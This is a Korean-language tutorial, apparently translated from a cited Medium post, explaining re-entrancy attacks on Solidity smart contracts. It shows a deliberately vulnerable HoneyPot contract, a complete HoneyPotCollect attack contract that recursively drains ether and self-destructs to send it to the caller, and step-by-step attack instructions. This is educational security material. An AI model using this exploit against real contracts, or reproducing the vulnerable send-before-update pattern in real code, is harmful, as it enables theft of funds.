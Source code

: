 # Re-Entrancy Attack On Smart Contracts: How To Identify The Exploitable And An Example Of An Attack Contract

<br/>

## 1. Introduction

#### HoneyPot.sol

```scala
pragma solidity ^0.4.8;

contract HoneyPot {
  mapping (address => uint) public balances;
  function HoneyPot() payable {
    put();
  }

  function put() payable {
    balances[msg.sender] = msg.value;
  }

  function get() {
    if (!msg.sender.call.value(balances[msg.sender])()) {
      throw;
    }
      balances[msg.sender] = 0;
  }

  function() {
    throw;
  }
}
```

위의 `HoneyPot` 컨트랙트는 5 ether를 원래 갖고 있었으며, 의도적으로 해킹되도록 설계되었다. 이번 포스트에서 어떻게 이 컨트랙트를 공격하고 대부분의 ether를 가져갈 수 있었는지 알아보도록 할 것이다.

<br/>

## 2. The Vulnerable Contract

위 `HoneyPot` 컨트랙트가 하는 일은 각 주소가 `put()` 함수를 통해 저장한 ether의 기록을 저장하고, 나중에 해당 주소에서 `get()` 함수를 통해 ether를 다시 가져갈 수 있게 하는 것이다.

<br/>

위 컨트랙트에서 가장 흥미로운 부분을 살펴보자.

```
mapping (address => uint) public balances;
```

<br/>

위의 코드는 address를 value로 맵핑하고 그 값을 `balances`라는 public variable에 저장한다. 이는 특정 주소에 대한 `HoneyPot balance`를 확인할 수 있도록 해준다.

```
balances[0x675dbd6a9c17E15459eD31ADBc8d071A78B0BF60]
```

<br/>

아래의 `put()` 함수는 컨트랙트에서 ether value가 저장되는 곳이다. 이 때 `msg.sender`는 트랜잭션을 전송한 `sender`의 주소이다.

```
function put() payable {
  balances[msg.sender] = msg.value;
}
```

<br/>

그리고 이제 우리가 공격하게 될 함수인 get() 함수를 보자. 이 함수의 목적은 기존에 다른 addresses가 저장해놓았던 `HoneyPot` 컨트랙트의 `balances`로부터 ether value를 `출금(withdraw)`하는 것이다.

```scala
function get() {
  if (!msg.sender.call.value(balances[msg.sender])()) {
    throw;
  }
  balances[msg.sender] = 0;
}
```

<br/>

위의 코드에서 어떤 부분에 취약점이 있는 것일까?

위의 코드를 잘 살펴보면 HoneyPot 컨트랙트는 오직 ***`msg.sender`에게 `ether`가 잘 전송되었는지를 검사한 후에만 해당 주소의 balance를 `0`으로 설정한다.***

이 부분에 바로 취약점이 있는데, 이 함수가 `recursive`하게 호출될 경우 공격이 가능하며 우리는 이것을 `reentrancy attack`이라고 부른다.

<br/>

이제 공격 컨트랙트를 작성해보도록 하자.

#### HoneyPotCollect.sol

```scala
pragma solidity ^0.4.8;

import "./HoneyPot.sol";

contract HoneyPotCollect {
  HoneyPot public honeypot;
  function HoneyPotCollect (address _honeypot) {
    honeypot = HoneyPot(_honeypot);
  }
  function kill () {
    suicide(msg.sender);
  }
  function collect() payable {
    honeypot.put.value(msg.value)();
    honeypot.get();
  }
  function () payable {
    if (honeypot.balance >= msg.value) {
      honeypot.get();
    }
  }
}
```

<br/>

위 코드에서는 우선 컴파일에 사용될 solidity의 버전을 설정한다.
그 다음 처음에 작성한 `HoneyPot` 컨트랙트를 `import`한다. 따라서 `HoneyPot` 컨트랙트는 `HoneyPotCollect` 컨트랙트에 의해 참조된다.  
그리고 우리는 컨트랙트 베이스를 `HoneyPotCollect`라고 설정한다.

```scala
pragma solidity ^0.4.8;

import "./HoneyPot.sol";

contract HoneyPotCollect {
  HoneyPot public honeypot;
...
}
```

<br/>

그 다음 우리는 constructor 함수를 정의한다. 이 constructor는 우리가 최초에 `HoneyPotCollect` 컨트랙트를 생성할 때 호출된다.
이 때 우리는 어떤 주소를 함께 전달하는데, 이 주소가 바로 우리가 공격할 `HoneyPot` 컨트랙트가 배포된 주소이다.

```scala
function HoneyPotCollect (address _honeypot) {
    honeypot = HoneyPot(_honeypot);
}
```

<br/>

그 다음에 있는 것은 `kill()` 함수이다. 우리는 `HoneyPot` 컨트랙트로부터 ether를 출금하여 `HoneyPotCollect` 컨트랙트로 전송하려고 한다. 하지만 우리는 또한 그렇게 가져간 ether를 내가 소유한 어떠한 주소로 전송할 것이다. 따라서 공격에 성공한 후에 `HoneyPotCollet` 컨트랙트를 파괴하고 모아진 모든 ether를 `kill()` 함수를 호출하는 주소로 전송하는 기능을 만들었다.

```scala
function kill () {
  suicide(msg.sender);
}
```

<br/>

아래의 `collect()` 함수는 `re-entrancy` 공격을 실행시키는 역할을 할 것이다. 이 함수는 ether를 `HoneyPot`에 저장한 후 곧 바로 출금한다.

```scala
function collect() payable {
  honeypot.put.value(msg.value)();
  honeypot.get();
}
```

<br/>

이 때 `payable` modifier는 `EMV`에게 ether를 받는 것을 허용한다고 알려주기 위함이다.

그리고 가장 마지막에 있는 함수는 `fallback function`이라는 것이다. 이 함수는 이름이 없으며, `HoneyPotCollect` 컨트랙트가 plain ether를 전송받을 때마다 실행된다.

```scala
function () payable {
  if (honeypot.balance >= msg.value) {
    honeypot.get();
  }
}
```

그리고 바로 이곳이 `re-entrancy` 공격이 발생하는 곳이다.

<br/>

## 3. Attack

1. `HoneyPotCollet` 컨트랙트를 배치한 후에, 일정량의 ether와 함께 `collect()` 함수를 호출한다.
2. `HoneyPot` 컨트랙트의 `get()` 함수는 자신을 호출한 주소(`HoneyPotCollect` 주소)가 일정량의 balance를 갖고 있을 때만 해당 주소에게 ether를 전송한다. `HoneyPot` 컨트랙트가 `HoneyPotCollect` 컨트랙트에게 ether를 전송하면 `HoneyPotCollect` 컨트랙트의 `fallback` 함수가 호출된다. 만약 `HoneyPot` 컨트랙트에 balance가 전송된 ether value보다 클 경우 이 `fallback` 함수는 `get()` 함수를 호출하며, 이 과정은 `recursive`하게 반복된다.
3. `get()` 함수 안의 코드에서 호출한 주소의 balance를 0으로 설정하는 것은 오직 ether를 전송한 후에만 이루어진다. 이것은 `HoneyPot` 컨트랙트를 속여서 `HoneyPotCollect` 컨트랙트에게 계속 반복하여 ether를 전송하도록 하여 `HoneyPot` 컨트랙트가 가진 거의 대부분의 ether를 공격자에게 전송하도록 만든다.

<br/>

<br/>

---

### References

\[1\] *Gustavo (Gus) Guimaraes. (2017, May 26). [Reentrancy Attack On Smart Contracts: How To Identify The Exploitable And An Example Of An Attack Contract][1] [Medium Blog Post]*

[1]: https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4




